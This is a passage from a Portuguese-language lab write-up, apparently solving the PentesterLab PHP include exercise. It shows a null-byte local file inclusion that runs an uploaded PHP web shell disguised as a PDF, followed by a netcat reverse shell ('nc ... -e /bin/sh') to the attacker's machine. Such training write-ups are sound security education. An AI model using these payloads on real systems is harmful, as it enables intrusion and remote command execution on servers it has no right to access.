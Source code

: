 Mas o script automaticamente insere um ".php" no final da entrada, o que faz sentido já que provavelmente espera encontrar uma página php para execução. É um problema que pode ser solucionado ao inserir um %00 (<a href="https://null-byte.wonderhowto.com/how-to/null-byte-injections-work-history-our-namesake-0130141/" target="_blank" rel="noopener">null byte</a>) no final da URL, que funcionará como um "sinalizador" de que a string acabou, fazendo com que o script ignore o .php que será inserido.

<img class="alignnone size-full wp-image-1511" src="https://image.ibb.co/caQ5rd/php9.png" alt="php9" width="725" height="409" />

Agora a próxima sacada dependeria do quanto de conhecimento e prática se tem. Ao ver essa falha, pensei logo em usa-la para executar a shell que enviei como pdf já que, mesmo com a extensão pdf, ao <a href="http://php.net/manual/pt_BR/function.include.php" target="_blank" rel="noopener">incluir</a> meu arquivo malicioso, o código php do mesmo seria executado. E, graças a informação exposta ao se fazer login, que exibe o caminho do arquivo que mandei, sei exatamente que endereço incluir como argumento para page: <em>http://192.168.0.36/index.php?page=uploads/shell.php.pdf%00</em>

<img class="alignnone size-full wp-image-1512" src="https://image.ibb.co/mspLPy/php91.png" alt="php9" width="737" height="358" />

Executado com sucesso! Então fiz login com a <a href="https://github.com/Snifer/L4bsForShell/blob/master/PHP/Antichat%20Shell%20v1.3.php" target="_blank" rel="noopener">shell</a>, que é um pouco limitada mas que dá para o gasto, e tratei de abrir uma conexão reversa com o netcat para meu computador.

Primeiro, coloquei o netcat para ficar na escuta (-l), em modo detalhado (-v), usando a porta (-p) 31337.

```root@budweiser:~/Desktop# nc -lvp 31337```

Depois, fui na simplória shell php e executei o seguinte comando:

```nc 192.168.0.29 31337 -e /bin/sh```

Isso fez com que o servidor se conectasse ao meu ip na porta que escolhi para meu netcat e, com a opção -e mando o nc executar /bin/sh após a conexão. Assim, com a conexão feita, os comandos que envio são executados por /bin/sh e o resultado me é enviado.

```root@budweiser:~/Desktop# nc -lvp 31337
Listening on [0.0.0.0] (family 0, port 31337)
Connection from [192.168.0.37] port 31337 [tcp/*] accepted (family 2, sport 36672)
whoami www-data
uname -a
Linux debian 2.6.32-5-686 #1 SMP Sun May 6 04:01:19 UTC 2012 i686 GNU/Linux
```

E por hoje o negócio foi esse aí. Você pode ver a solução oficial no site do <a href="https://pentesterlab.com/exercises/php_include_and_post_exploitation/course" target="_blank" rel="noopener">Pentester Lab</a>.
